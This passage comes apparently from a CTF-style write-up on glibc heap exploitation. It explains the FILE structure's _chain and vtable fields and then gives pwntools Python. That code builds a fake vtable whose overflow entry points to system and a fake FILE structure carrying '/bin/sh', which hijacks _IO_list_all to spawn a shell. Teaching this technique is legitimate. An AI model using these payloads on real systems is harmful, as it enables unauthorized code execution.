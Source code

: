 ```c
    +0x0058 _IO_save_end         : char *
    +0x0060 _markers             : struct _IO_marker *
    +0x0068 _chain               : struct _IO_FILE *
    +0x0070 _fileno              : int
    +0x0074 _flags2              : int
    +0x0078 _old_offset          : __off_t
    +0x0080 _cur_column          : short unsigned int
    +0x0082 _vtable_offset       : signed char
    +0x0083 _shortbuf            : char [1]
    +0x0088 _lock                : _IO_lock_t *
    +0x0090 _offset              : __off64_t
    +0x0098 _codecvt             : struct _IO_codecvt *
    +0x00a0 _wide_data           : struct _IO_wide_data *
    +0x00a8 _freeres_list        : struct _IO_FILE *
    +0x00b0 _freeres_buf         : void *
    +0x00b8 __pad5               : size_t
    +0x00c0 _mode                : int
    +0x00c4 _unused2             : char [20]
```

I know that's a lot but we don't care about most of the fields.
Mind the `_chain` field inside the structure. Like in the fastbins for the heap chunks under `0x80` bytes, all the `FILE` streams in the libc are singly-linked (using the `_chain` field). The first member of this list is the `_IO_list_all` symbol that contains the last opened `FILE` stream, `stderr` in this case (but we don't really care), and a pointer to a vtable (yup, C++ has corrupted the libC). When a file stream needs to be cleaned, for example when closed (when the program exits _for example_), the `overflow` function in this vtable is called, with a pointer to the `FILE` structure that needs to be closed as first parameter. This `overflow` function is only called if `_mode <= 0 && _IO_write_ptr > _IO_write_base`. Hohoho, I wonder if we can control this vtable to make the `overflow` field to point to the `system` function...

What we're going to do is overwrite the `_IO_list_all` to make it point to some memory we control on the heap. We can craft a fake `FILE` structure adjacent to a fake `vtable` pointer, which contains a pointer to `system` instead of the usual pointer to `overflow`.

First, craft the fake vtable :
```python
# Create fake vtable
fake_vtable = p64(0) * 3
fake_vtable += p64(libc.sym.system)
vtable_addr = malloc(0x100, fake_vtable)
```
Mind that the `overflow` function is the 4th member of the vtable.
Then craft the fake `FILE` structure which is followed by the fake vtable pointer :
```python
# Create fake FILE
fake_file = b"/bin/sh\0"                # _flags
fake_file += p64(0x61)                  # _IO_read_ptr
fake_file += p64(0xdeadbeef)            # _IO_read_end
fake_file += p64(0xdeadbeef)            # _IO_read_base
fake_file += p64(1)                     # _IO_write_base
fake_file += p64(2)                     # _IO_write_ptr
fake_file += p64(0)*18                  # _IO_write_end ... __pad5
fake_file += p32(0)                     # _mode
fake_file += p8(0)*20                   # _unused2
fake_file += p64(vtable_addr)
file_addr = malloc(0x100, fake_file)
```
